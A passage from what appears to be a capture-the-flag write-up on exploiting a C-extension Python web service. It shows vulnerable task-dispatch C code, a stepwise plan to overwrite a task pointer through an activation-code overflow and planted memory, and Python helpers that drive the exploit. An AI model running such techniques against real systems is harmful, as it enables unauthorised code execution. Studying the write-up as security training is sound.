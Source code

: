What feeds the thread loops is `run_async_function` (called from `/run/` endpoint):

```c
PyObject *run_async_function(PyObject *self, PyObject *args) {
    if (!state.isActivated) {
        PyErr_SetString(PyExc_PermissionError, "Please activate the application to unlock this feature");
        return NULL;
    }
    if(state.error) {
        PyErr_SetString(PyExc_Exception, state.error);
        return NULL;
    }
    PyObject *meth_args;
    long meth_id, args_count;
    if (!PyArg_ParseTuple(args, "llO", &meth_id, &args_count, &meth_args)) {
        PyErr_SetString(PyExc_Exception, "Parsing args failed...");
        return NULL; // Parsing failed, return NULL
    }
    Py_INCREF(meth_args);

    void (**methods[])(size_t, PyObject *) = {isPrimeWrapper, simulateHeavyProcessing};
    void *method = methods[meth_id];
    task *t = createTask(method, args_count, (void**)meth_args);
    addTask(t);
    return PyLong_FromLong(t->id);
}
```


# Summary so far

*   Breaking activation is a simple brute-force.
*   We can put arbitrary data in new memory objects (`/__debug__/`) - the address will
    be returned in the `id` element of the dict.
*   Thanks to overflow in the activation code, we can send up to 16 bytes as a
    Base64 string and overwrite `tasks[0]` with the latter 8.
*   So, we can get the thread loop to execute arbitrary function we point to from there.
*   There is no obvious way to get the CRC-32 polynomial. `poly()` function is
    not helpful here.
*   We are not yet sure **what** to call from that hand-crafted `task`.

Let's tackle these one by one.

# Wrapping the useful API methods

```python
URL = "http://localhost:8080"
if len(sys.argv)>1:
    URL = sys.argv[1]

# API /run/ - execute a task. Return task ID - i.e. rand() value
def run(is_async:bool, method:str, arg:str):
    params = {"is_async": is_async, "method": method, "argc": 1, "argv": [arg]}
    r = requests.post(URL+"/run/", json=params)
    return r.json()["id"]

# API /__debug__/ - put bytes in server's RAM. Return the address.
def debug(arg:bytes):
    params = {"obj": "base64:"+base64.b64encode(arg).decode('ascii')}
    r = requests.post(URL+"/__debug__/", json=params)
    return r.json()["__id__"]+0x20

# API /activate/ - Send activation byte string, with possible overflow.
```